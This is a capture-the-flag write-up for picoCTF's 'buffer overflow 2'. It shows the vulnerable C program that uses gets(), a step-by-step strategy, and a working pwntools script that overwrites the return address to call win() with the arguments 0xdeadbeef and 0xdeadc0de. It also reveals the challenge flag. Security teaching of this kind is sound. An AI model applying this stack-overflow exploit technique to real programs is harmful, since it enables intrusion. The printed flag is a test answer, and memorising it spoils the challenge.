

Lets start by breaking down the source

## vuln.c

We can estimate the buffersize needed to overflow (100) and also see a win() function that prints a flag. Important thing to note here is the win function requires 2 arguments (0xdeadbeef and 0xdeadc0de)
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

Another vulnerable gets() function. The import thing to note here is unlike the task shellcode the char buf is set within the vuln function which should make it easy to overflow and control EIP
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Strategy

1. Find the buffer amount required to control EIP using pwn cyclic
2. Find the address of the win function using pwntools ELF library
3. Build a payload consisting of buffer + win() + win()'s_return_address(we'll use main) + arg1(0xdeadbeef) + arg2(0xdeadc0de)
4. Connect to the server and send the payload

## apple.py

```python
#!/usr/bin/env python


from pwn import *
import sys

argc = len(sys.argv)

#obtain offset
'''
pwn cyclic 140 | strace ./vuln
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616164} ---
+++ killed by SIGSEGV +++
Segmentation fault
pwn cyclic -l 0x62616164
112
'''
#set offset, arg1, and arg2 variables
offset = 112
arg1 = 0xdeadbeef
arg2 = 0xdeadc0de

#get addr of win and main
e = ELF('./vuln')
win = e.symbols['win']
main = e.symbols['main']

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa')
else:
	p = process('./vuln')


#build payload
payload = ''
payload+= 'A'*offset	#112 A's to fill the buffer
payload+= p32(win)		#returns to win function instead of main
payload+= p32(main)		#the return pointer for the win function. It doesnt matter so i just put some ascii
payload+= p32(arg1)		#0xdeadbeef
payload+= p32(arg2)		#0xdeadc0de

#send and interact with shell
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
</details>